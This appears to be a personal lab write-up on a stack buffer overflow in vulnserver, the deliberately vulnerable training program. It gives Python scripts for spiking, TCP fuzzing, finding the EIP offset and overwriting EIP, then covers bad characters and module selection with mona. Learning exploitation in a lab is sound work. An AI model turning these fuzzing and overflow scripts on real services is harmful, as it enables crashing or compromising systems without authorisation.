# 1. Setup
Downloads: 
1. Win 10 enterprise
2. vulnserver
3. immunity debugger

Install win10 on VM and install tools in it.
Run them as admin

# 2. Buffer overflow explained



- **overflow buffer space**


- **steps to conduct buffer overflow**


# 3. spiking


Tool: `generic_send_tcp`

- Spike file
- Created spike file for all commands with py 
 ```python3
 #!/usr/bin/python3

cmds = ["STATS", "RTIME", "LTIME", "SRUN", "TRUN", "GMON", "GDOG",\
                "KSTET", "GTER", "HTER", "LTER", "KSTAN"]


for cmd in cmds:
        content = f's_readline();\ns_string("{cmd} ");\ns_string_variable("0");'
        with open(f'{cmd}.spk', 'w+') as w:
                w.write(content)
                print(f'created {cmd}.spk')
```

## Sending spike file with `generic_send_tcp`


Buffer overflow caught as program crashed.
Commands: TRUN, GTER




Payload format: `<cmd> /.:/<Chars>`


# 4. Fuzzing with python
Script:
```python3
#!/usr/bin/python3


import sys, socket, time


target = input("Enter target ip: ")
port = int(input("Enter port: "))
cmd = input("Enter command: ")

buffer = "A" * 100

while True:
        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((target, port))

                #sending payload for buffer overflow
                s.send((f"{cmd} /.:/{buffer}".encode()))
                print(f"Sent {len(buffer)} A's")
                s.close()

                time.sleep(1)
                buffer += "A" * 100

        except:
                print(f"Fuzzing crashed at {len(buffer)} bytes")
                sys.exit()
```

# 5. Finding the OFFSET

Script:
```python3
#!/usr/bin/python3


import sys, socket, time


target = input("Enter target ip: ")
port = int(input("Enter port: "))
cmd = input("Enter command: ")

offset = input("Enter offset: ")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))

#sending payload for buffer overflow
s.send((f"{cmd} /.:/{offset}".encode()))
s.close()
```

Generating char pattern from metasploit-framework of 200 bytes (for GTER) as it crashed in 200 and **sending** it to check for crash.





- GOT **EIP: 41396541**

## Now using pattern_offset.rb to get offset


Got offset as 147.
Now sending exactly 147 A's to verify it.

**AND IT CRASHED!**


# 6. Overwriting EIP 
Script:
```python3
#!/usr/bin/python3


import sys, socket, time


target = input("Enter target ip: ")
port = int(input("Enter port: "))
cmd = input("Enter command: ")

shellcode = "A" * 147 + "B" * 4

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))

#sending payload for buffer overflow
s.send((f"{cmd} /.:/{shellcode}".encode()))
s.close()
```


**EIP: 42424242**

# 7. Finding bad characters
Tool: https://github.com/cytopia/badchars


Bad chars are the first missing one's in consecutive.

# 8. Find right module
Looking for dlls, etc which have no memory protection.

Tool: https://www.github.com/corelan/mona
**PASTE mona.py in immunity pyCommands**
